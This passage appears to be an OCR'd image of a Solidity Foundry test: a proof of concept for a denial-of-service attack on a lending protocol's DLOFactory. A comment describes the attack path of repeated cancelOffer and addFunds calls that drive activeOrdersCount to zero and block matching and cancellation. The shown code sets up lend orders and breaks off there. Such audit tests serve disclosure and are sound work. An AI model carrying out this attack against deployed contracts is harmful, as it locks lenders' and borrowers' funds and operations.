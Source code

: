 ```solidity  
        );  
    }  
  
  
    // Attack path:  
    // 1. multiple lend offers are created  
    // 2. borrow offer is created  
    // 3. lender1 executes cancelOffer -> addFunds multiple times until DLOFactory::activeOrdersCount == 0  
    // 4. user calls matchOffersV3 and another lender calls cancelOffer. Both should fail  
    function testDOSAttack() public {  
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);  
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);  
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);  
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);  
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);  
        bool[] memory oraclesActivatedLenders = allDynamicData  
            .getDynamicBoolArray(1);  
        address[] memory acceptedPrinciples = allDynamicData  
            .getDynamicAddressArray(1);  
        address[] memory acceptedCollaterals = allDynamicData  
            .getDynamicAddressArray(1);  
        address[] memory oraclesCollateral = allDynamicData  
            .getDynamicAddressArray(1);  
        address[] memory oraclesPrinciples = allDynamicData  
            .getDynamicAddressArray(1);  
  
        ratioLenders[0] = 1e18;  
        ratio[0] = 1e18;  
        acceptedPrinciples[0] = wETH;  
        acceptedCollaterals[0] = USDC;  
        oraclesActivated[0] = false;  
  
        // Create multiple lend offers  
        vm.startPrank(lender1);  
        wETHContract.approve(address(DLOFactoryContract), 5 ether);  
  
        address lendOffer1 = DLOFactoryContract.createLendOrder({  
            _perpetual: false,  
            _oraclesActivated: oraclesActivatedLenders,  
            _lonelyLender: false,  
            _LTVs: ltvsLenders,  
            _apr: 1000,  
            _maxDuration: 8640000,  
            _minDuration: 86400,  
            _acceptedCollaterals: acceptedCollaterals,  
            _principle: wETH,  
            _oracles_Collateral: oraclesCollateral,  
            _ratio: ratioLenders,  
            _oracleID_Principle: address(0x0),  
            _startedLendingAmount: 5e18  
        });  
  
        vm.startPrank(lender2);  
        wETHContract.approve(address(DLOFactoryContract), 5 ether);  
  
        address lendOffer2 = DLOFactoryContract.createLendOrder({  
            _perpetual: false,  
            _oraclesActivated: oraclesActivatedLenders,  
            _lonelyLender: false,  
            _LTVs: ltvsLenders,  
            _apr: 1000,  
            _maxDuration: 8640000,  
```